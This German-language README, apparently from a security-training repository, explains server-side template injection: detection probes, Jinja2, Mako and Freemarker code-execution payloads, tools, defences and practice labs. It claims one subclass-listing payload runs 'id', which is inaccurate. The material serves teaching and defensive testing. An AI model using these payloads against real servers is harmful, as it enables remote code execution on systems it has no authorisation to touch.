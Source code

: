 # 🧩 SSTI – Server-Side Template Injection



## Inhaltsverzeichnis
- [Was ist SSTI?](#was-ist-ssti)
- [Typische Template Engines](#typische-template-engines)
- [Wie erkennt man SSTI?](#wie-erkennt-man-ssti)
- [Typische Test-Payloads](#typische-test-payloads)
- [Exploits: Jinja2 RCE (Python)](#exploits-jinja2-rce-python)
- [SSTI Cheat-Sheet: Template Engines](#ssti-cheat-sheet-template-engines)
- [Tools zur Unterstützung](#tools-zur-unterstützung)
- [Schutzmaßnahmen](#schutzmaßnahmen)
- [Beispiele aus der Praxis](#beispiele-aus-der-praxis)
- [Lerne & Übe SSTI](#lerne--übe-ssti)
- [Weiterführende Links](#weiterführende-links)
- [Haftungsausschluss](#haftungsausschluss)



## Was ist SSTI?

**Server-Side Template Injection (SSTI)** bezeichnet eine Schwachstelle, bei der ein Angreifer serverseitige Template-Engines manipulieren kann, um beliebige Ausdrücke auszuführen. Das passiert, wenn Benutzereingaben ohne Filterung in Templates eingebunden werden.

> 🔥 In vielen Fällen führt SSTI zu **Remote Code Execution (RCE)** auf dem Server.



## Typische Template Engines

| Sprache  | Engine             | Erkennbar an…             |
|----------|--------------------|----------------------------|
| Python   | Jinja2, Mako        | `{{7*7}}`, `{% for %}`     |
| PHP      | Twig, Smarty        | `{{ 'PHP' }}`              |
| Java     | Freemarker, Velocity | `${7*7}`, `#set($var=7)`   |
| JavaScript | EJS, Handlebars   | `{{7*7}}`                  |
| Ruby     | ERB, Liquid         | `<%= 7*7 %>`               |


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Wie erkennt man SSTI?

### Schritt-für-Schritt-Erkennung

1. **Füge einfache Payloads ein:**
   - `{{7*7}}`
   - `${7*7}`
   - `<%= 7*7 %>`
   - `*{{constructor.constructor("alert(1)")()}}*` (JS)

2. **Prüfe auf gerenderte Ergebnisse:**
   - Wird `49` angezeigt? → **SSTI vorhanden**
   - Wird der Ausdruck als Text zurückgegeben? → vermutlich keine SSTI



## Typische Test-Payloads

| Payload       | Bedeutung                      |
|---------------|-------------------------------|
| `{{7*7}}`      | Arithmetischer Test           |
| `{{self}}`     | Zugriff auf interne Objekte  |
| `{{config}}`   | Zugriff auf Konfiguration     |
| `${{7*7}}`     | Freemarker Payload            |
| `<%= 7*7 %>`   | Ruby ERB                      |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Exploits: Jinja2 RCE (Python)

```jinja2
{{''.__class__.__mro__[1].__subclasses__()}}
```
→ Führt id-Befehl aus!

### Kürzer über cycler, joiner:

```jinja2
{{cycler.__init__.__globals__.os.popen('id').read()}}
```



## SSTI Cheat-Sheet: Template Engines

| Engine     | Ausdruck                                                   | RCE möglich?  |
| ---------- | ---------------------------------------------------------- | ------------- |
| Jinja2     | `{{7*7}}`, `{{config}}`                                    | ✅             |
| Mako       | `${7*7}`, `${os.system('ls')}`                             | ✅             |
| Twig       | `{{ 7*7 }}`                                                | eingeschränkt |
| Freemarker | `${7*7}`, `${"freemarker.template.utility.Execute"?new()}` | ✅             |
| ERB        | `<%= 7*7 %>`                                               | ✅             |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tools zur Unterstützung

| Tool       | Beschreibung                            |
| ---------- | --------------------------------------- |
| Burp Suite | Manuelle & automatische Tests           |
| tplmap     | Automatisierte SSTI-Erkennung + Exploit |
| WFuzz      | Fuzzing von Parametern                  |
| SSTI-Lab   | Eigene Trainingsumgebung (GitHub)       |



## Schutzmaßnahmen

| Maßnahme                             | Beschreibung                           |
| ------------------------------------ | -------------------------------------- |
| Eingabe validieren                   | Nur erlaubte Zeichen zulassen          |
| Escaping                             | `{% autoescape %}` verwenden           |
| Logik & Templates trennen            | Keine Logik im Template verarbeiten    |
| Keine Userdaten im Template          | Niemals unescaped einfügen             |
| Template Engine sicher konfigurieren | z. B. `sandbox`, kein Zugriff auf eval |




## Beispiele aus der Praxis

| Beispiel                               | Anfälligkeit |
| -------------------------------------- | ------------ |
| Feedback-Form mit Template-Output      | SSTI         |
| Benutzername wird ins Template geladen | SSTI         |
| Fehlermeldungen mit dynamischem Inhalt | SSTI möglich |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Lerne & Übe SSTI

| Plattform        | Inhalt                         |
| ---------------- | ------------------------------ |
| TryHackMe        | SSTI Room (z. B. „Injection“)  |
| PortSwigger Labs | Web Security Academy           |
| HackTheBox       | Machines: „Jeeves“, „Bashed“   |
| DVWA/bWAPP       | Simulierte SSTI-Schwachstellen |




## Weiterführende Links

- [PayloadsAllTheThings – SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [PortSwigger SSTI Labs](https://portswigger.net/web-security/server-side-template-injection)
- [tplmap Tool](https://github.com/epinna/tplmap)
- [OWASP SSTI Guide](https://owasp.org/www-community/attacks/Server-Side_Template_Injection)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

